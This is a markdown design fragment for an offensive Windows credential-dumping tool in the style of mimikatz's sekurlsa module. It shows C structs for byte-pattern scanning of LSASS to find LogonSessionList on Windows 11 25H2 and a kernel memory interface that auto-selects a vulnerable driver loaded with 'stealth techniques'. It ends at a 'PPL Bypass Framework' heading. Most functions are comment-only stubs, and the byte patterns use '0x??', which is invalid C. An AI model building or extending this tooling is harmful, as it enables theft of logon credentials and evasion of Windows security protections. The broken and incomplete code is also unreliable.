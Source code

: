 ## Technical Implementation Details

### Dynamic Structure Resolution

**Current Approach**: Hardcoded offsets in `globals_sekurlsa.h`
**New Approach**: Runtime pattern scanning

```c
// Pattern-based LogonSessionList location
typedef struct _SEKURLSA_PATTERN {
    BYTE pattern[32];
    BYTE mask[32];
    LONG offset;
    CHAR *description;
} SEKURLSA_PATTERN;

// Windows 11 25H2 specific patterns
SEKURLSA_PATTERN Win11_25H2_Patterns[] = {
    // LogonSessionList search pattern
    {
        {0x48, 0x8B, 0x0D, 0x??, 0x??, 0x??, 0x??, 0x48, 0x85, 0xC9},
        {0xFF, 0xFF, 0xFF, 0x00, 0x00, 0x00, 0x00, 0xFF, 0xFF, 0xFF},
        3,
        "LogonSessionList"
    },
    // LsaProtectMemory pattern
    // ...
};
```

### Driver-Based Memory Access

**Integration with driver-hunter**:
```c
typedef struct _DRIVER_MEMORY_INTERFACE {
    HANDLE hDriver;
    ULONG ioctlReadMemory;
    ULONG ioctlWriteMemory;
    BOOL (*ReadKernelMemory)(PVOID source, PVOID dest, SIZE_T size);
    BOOL (*WriteKernelMemory)(PVOID dest, PVOID source, SIZE_T size);
} DRIVER_MEMORY_INTERFACE;

// Auto-select vulnerable driver based on system
NTSTATUS InitializeDriverInterface(DRIVER_MEMORY_INTERFACE *pDrvInterface) {
    // Query driver-hunter database for compatible driver
    // Load driver with stealth techniques
    // Initialize IOCTL interface
    // Return success/failure
}
```

### PPL Bypass Framework
